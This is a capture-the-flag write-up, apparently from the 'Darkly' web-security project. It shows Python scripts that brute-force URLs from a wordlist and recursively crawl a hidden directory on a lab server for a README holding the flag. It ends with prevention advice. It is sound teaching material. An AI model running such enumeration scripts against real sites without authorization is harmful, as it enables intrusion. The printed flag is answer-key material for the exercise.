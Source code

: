 # URL_BRUTE_FORCING_(2)

## 🏴 Flag

```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

## 📌 Extract

The goal of this scrapping is to find hidden files of the website, with a .txt containing a lot of files name, (we use another .txt).

```python
def scrapper(url: str, dict: str):
	try:
		if not url.endswith("/"):
			url += '/'
		if not url.startswith("http://"):
			url = "http://" + url
		l = []
		with open(dict) as suffixes:
			for word in suffixes:
				if "\n" in word:
					word = word[0:-1]
				res = requests.get(url + word)
				if res.status_code == 200 and "404" not in res.text:
					print("Url Found :", url + word)
					l.append(url+word)
			print(l)
	except Exception as e:
		print(e)
		print(l)
```

Url Found : http://10.11.248.209/admin
Url Found : http://10.11.248.209/admin/
Url Found : http://10.11.248.209/admin/index.php
Url Found : http://10.11.248.209/admin/?/login
Url Found : http://10.11.248.209/favicon.ico
Url Found : http://10.11.248.209/index.php
Url Found : http://10.11.248.209/robots.txt

In the /robots.txt, we can see this: 

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

There is a .hidden directory. When we access to it we found a directory containing directories,…

![image.png](image.png)

There is 28^3 directories, containing a README for each. So we need to do a recursive function to scrap all README until we met a FLAG.

```python
def write_readme_content(url, content):
    try:
        with open("readme_contents.txt", "a", encoding="utf-8") as f:
            f.write(f"URL: {url}\n")
            f.write(f"Contenu: {content}\n")
    except Exception as e:
        print(f"Erreur lors de l'écriture dans le fichier: {e}")

def scrape_directory(url, visited_urls=set()):
	if url in visited_urls:
		return set()
	visited_urls.add(url)
	out = requests.get(url)
	files = set()
	links = re.findall(r'<a href="(.*?)">', out.text)
	for link in links:
		full_url = urljoin(url, link)

		if full_url.endswith('/'):
			files.update(scrape_directory(full_url, visited_urls))
		else:
			if 'README' in link:
				print_readme_content(full_url)

	return files

def print_readme_content(url):
	try:
		response = requests.get(url)
		if response.status_code == 200:
			print(response.text)
			write_readme_content(url, response.text)
	except Exception as e:
		print(f"Error fetching {url}: {e}")

start_url = "http://10.13.248.106/.hidden/"
files = scrape_directory(start_url)
print("Finishedd:)")
```

And after few minutes, we get the good README file. 

```jsx
URL: http://10.13.248.106/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README
Contenu:
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

The program put all the contents of all file in a readme_content.txt.

## **🎯 Use**

This vulnerability involves exploiting hidden or unprotected directories on a website to gain unauthorized access to sensitive information or functionality. Without proper security measures, attackers can:

- **Discover hidden directories** containing sensitive files or data.
- **Access restricted areas** of the website, such as admin panels.
- **Retrieve credentials or configuration files** that can be used for further exploitation.
- **Bypass security mechanisms** by finding and exploiting unprotected resources.

## **🔒 Prevention**

1. **Directory Listing Prevention:** Disable directory listing on the server to prevent exposure of directory contents.
2. **Access Controls:** Implement strict access controls to restrict access to sensitive directories.
3. **Monitor and Log:** Regularly monitor and log access attempts to detect and respond to unauthorized access.
4. **Use Robots.txt Wisely:** Avoid listing sensitive directories in robots.txt, as this can inadvertently expose them.
5. **Regular Audits:** Conduct regular security audits to identify and secure hidden or unprotected directories.

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)
